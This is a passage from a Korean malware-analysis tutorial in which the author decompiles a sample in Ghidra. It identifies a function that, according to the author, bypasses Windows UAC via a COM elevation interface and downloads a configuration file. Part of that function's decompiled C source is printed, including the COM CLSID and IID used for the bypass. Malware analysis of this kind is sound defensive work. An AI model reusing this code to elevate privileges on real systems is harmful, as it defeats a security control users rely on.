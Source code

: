 ![](ghidra_part4/Untitled%2011.png)

앞부분을 읽어보니 인터넷에 연결을 해서 해당 URL에서 ATAPIConfiguration을 다운로드하는 함수임을 짐작할 수 있습니다. 일단 함수명을 `download_ATAPIConfiguration`이라고 합시다. 이 함수의 전체적인 동작 기능을 정리해보면

1. [COM 인터페이스를 사용하여 UAC를 우회](https://gist.github.com/api0cradle/d4aaef39db0d845627d819b2b6b30512)
2. 인터넷에서 ATAPIConfiguration을 다운로드

그럼 해당 함수 이름은 uac_bypass_and_download_file로 하여 정리를 하면 다음과 같은 코드가 됩니다.

```c
void uac_bypass_download_file(void)

{
  HMODULE HModule;
  HRESULT HVar1;
  wchar_t string [260];
  BIND_OPTS pBindOptions;
  undefined4 local_60;
  int *ppv;
  CLSID local_4c;
  IID riid;
  CoGetObject *CoGetObject_addr;
  IIDFromString *IIDFromString_addr;
  CLSIDFromString *CLSIDFromString_addr;
  HRESULT local_20;
  CoInitializeEx *CoInitializeEx_addr;
  HMODULE hModule;
  int local_14;
  HRESULT local_10;
  
  local_10 = 0x80004005;
  local_14 = 0;
  ppv = (int *)0x0;
  hModule = LoadLibraryA("ole32.dll");
  CoInitializeEx_addr = (CoInitializeEx *)GetProcAddress(hModule,"CoInitializeEx");
  local_20 = (*CoInitializeEx_addr)((LPVOID)0x0,6);
  HModule = GetModuleHandleW(L"Ole32.dll");
  CLSIDFromString_addr = (CLSIDFromString *)GetProcAddress(HModule,"CLSIDFromString");
  HModule = GetModuleHandleW(L"Ole32.dll");
  IIDFromString_addr = (IIDFromString *)GetProcAddress(HModule,"IIDFromString");
  do {
    HVar1 = (*CLSIDFromString_addr)(L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}",(LPCLSID)&local_4c);
    if ((HVar1 != 0) ||
       (HVar1 = (*IIDFromString_addr)(L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}",(LPIID)&riid),
       HVar1 != 0)) break;
    RtlSecureZeroMemory(string,0x208);
```